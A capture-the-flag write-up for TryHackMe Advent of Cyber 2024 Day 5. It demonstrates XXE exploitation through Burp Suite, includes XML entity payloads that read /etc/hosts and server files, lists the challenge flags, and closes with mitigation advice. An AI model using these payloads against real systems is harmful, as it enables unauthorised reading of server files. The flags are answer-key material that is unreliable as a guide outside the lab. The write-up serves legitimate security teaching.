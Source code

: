 # 🎄 TryHackMe Advent of Cyber 2024 – Day 5: XXE Exploitation Challenge

## Objectives 🎯

1. Understand how XML and entities work to identify XXE vulnerabilities.
2. Exploit the XXE vulnerability to access restricted files.
3. Investigate application development history for signs of sabotage.

## Steps 🚀

### Step 1: Identifying the XXE Vulnerability

#### Setting Up Burp Suite
1. **Install and Launch Burp Suite:**  
   - Download Burp Suite [here](https://portswigger.net/burp).
2. **Navigate to the Website:**  
   - Open Burp's browser and visit `http://MACHINE_IP/product.php`.
3. **Add a Product to Wishlist:**  
   - Intercept the "Add to Wishlist" request using Burp Suite’s **Proxy** tab.

#### Crafting the Payload
1. **Intercept and Modify the Request:**  
   Replace the `<product_id>` value in the XML with an external entity reference:
   ```
   <!--?xml version="1.0"?-->
   <!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
   <wishlist>
     <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
   </wishlist>
   ```
2. **Send the Request:**  
   Use Burp’s **Repeater** tab to send the modified request and observe the response.

### Step 2: Exploiting the XXE Vulnerability

#### Accessing Sensitive Files
1. **Target Files in the Server:**  
   Modify the payload to access files in `/var/www/html/wishes/`:
   ```
   <!--?xml version="1.0"?-->
   <!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
   <wishlist>
     <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
   </wishlist>
   ```
2. **Iterate Through Files:**  
   Change the file name incrementally (e.g., `wish_2.txt`, `wish_3.txt`) to uncover additional content.

#### Discovering the Flag
- On `wish_15.txt`, the response reveals:  
  ```
  PS: The flag is THM{Brut3f0rc1n6_mY_w4y}
  ```

### Step 3: Investigating the Sabotage

#### Accessing the Changelog
1. **View the Changelog:**  
   Visit `http://MACHINE_IP/CHANGELOG`.
2. **Analyze Entries:**  
   The changelog indicates a recent update introducing vulnerable XML parser code.

#### Discovering the Sabotage Flag
- The changelog reveals the sabotage:  
  **Answer:** `THM{m4y0r_m4lw4r3_b4ckd00rs}`

## Key Findings 🔑

1. **Sensitive File Access:** Exploiting the XXE vulnerability enabled access to restricted server files.
2. **Evidence of Sabotage:** The changelog confirmed suspicious modifications by Mayor Malware.
3. **Unsecure XML Parsing:** The vulnerability arose from improperly handled external entities.

## Lessons Learned 🌟

### Understanding XXE Exploitation
1. **XML Risks:** XML parsing without restrictions can expose sensitive backend systems.
2. **Entity Resolution:** External entities can be used to access files or send malicious requests.

### Mitigation Strategies
1. **Disable External Entity Loading:**  
   - Use `libxml_disable_entity_loader(true)` in PHP.
2. **Input Validation:**  
   - Restrict XML structures and validate inputs before processing.
3. **Regular Audits:**  
   - Review and test applications for vulnerabilities prior to deployment.

### Tools and Techniques 🛠️

1. **[Burp Suite](https://portswigger.net/burp):** Intercepted and modified HTTP requests to test for XXE.  
2. **XML Payloads:** Exploited vulnerabilities using custom XML with external entities.  
3. **Browser:** Accessed the application and verified the exploitation outcomes.

## Final Thoughts 🎁

Day 5 emphasized the importance of secure coding practices when dealing with XML. The challenge demonstrated how improper parsing could expose sensitive data and highlighted the dangers of external entities. Understanding these risks and addressing them proactively is crucial for secure application development.

### Answers ✅

1. **What is the flag discovered after navigating through the wishes?**  
   **Answer:** `THM{Brut3f0rc1n6_mY_w4y}`  
2. **What is the flag seen on the possible proof of sabotage?**  
   **Answer:** `THM{m4y0r_m4lw4r3_b4ckd00rs}`  

## Table of Contents 📚

| Day  | Challenge                              | Day  | Challenge                               | Day  | Challenge                               |
|------|----------------------------------------|------|-----------------------------------------|------|-----------------------------------------|
| 📖  | [README](../README.md)                 | 9    | [Risk Assessment](days/day9.md)         | 17   | [Log Analysis](days/day_17.md)          |
| 1    | [OPSEC Challenge](days/day1.md)        | 10   | [Phishing](days/day_10.md)              | 18   | [Prompt Injection](days/day_18.md)      |
| 2    | [Log Analysis](days/day2.md)           | 11   | [Wi-Fi Attacks](days/day_11.md)         | 19   | [Game Hacking](days/day_19.md)          |
| 3    | [Log Analysis](days/day3.md)           | 12   | [Web Timing Attacks](days/day_12.md)    | 20   | [Traffic Analysis](days/day_20.md)      |
| 4    | [Atomic Red Team](days/day4.md)        | 13   | [WebSockets](days/day_13.md)            | 21   | [Reverse Engineering](days/day_21.md)   |
| 5    | **XXE**                                | 14   | [Certificate Mismanagement](days/day_14.md)| 22 | [Kubernetes DFIR](days/day_22.md)       |
| 6    | [Sandboxes](days/day6.md)              | 15   | [Active Directory](days/day_15.md)      | 23   | [Hash Cracking](days/day_23.md)         |
| 7    | [AWS Sandboxes](days/day7.md)          | 16   | [Azure Exploitation](days/day_16.md)    | 24   | [Communication Protocols](days/day_24.md)|
| 8    | [Shellcodes](days/day8.md)             |      | **Merry SOC-mas!** 🎁✨☃️              |      | 🎄✨🎅                                |

